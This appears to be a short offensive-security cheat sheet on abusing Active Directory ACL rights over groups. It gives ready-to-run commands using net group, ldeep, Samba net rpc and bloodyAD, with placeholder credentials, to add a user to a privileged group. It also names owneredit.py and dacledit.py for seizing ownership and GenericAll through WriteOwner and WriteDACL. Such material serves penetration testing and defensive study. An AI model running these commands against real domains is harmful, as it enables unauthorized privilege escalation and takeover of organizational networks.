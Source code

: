# ACLs/ACEs permissions on Group

### Self (Self-Membership) on Group / GenericAll/WriteProperty on Group/ WriteProperty (Self-Membership)

#### 1) Add group member

    net group "GROUP" MY_USER /add /domain

#### 2) ldeep

    ldeep ldap -u USER -p PASSWORD -d DOMAIN -s ldap://DC add_to_group "CN=USER,DC=DOMAIN" "CN=GROUP,DC=DOMAIN"

#### 3) Linux Net RPC - Samba

    net rpc group addmem "GROUP" "USER" -U domain.local/USER%'Password@1' -S DC_IP

#### 4) BloodyAD

    bloodyAD --host "DC_IP" -d "domain.local" -u "USER" -p "Password@1" add groupMember "GROUP" "USER"

### WriteOwner on Group

#### WriteDACL + WriteOwner. Give yourself Generic All with: owneredit.py and dacledit.py
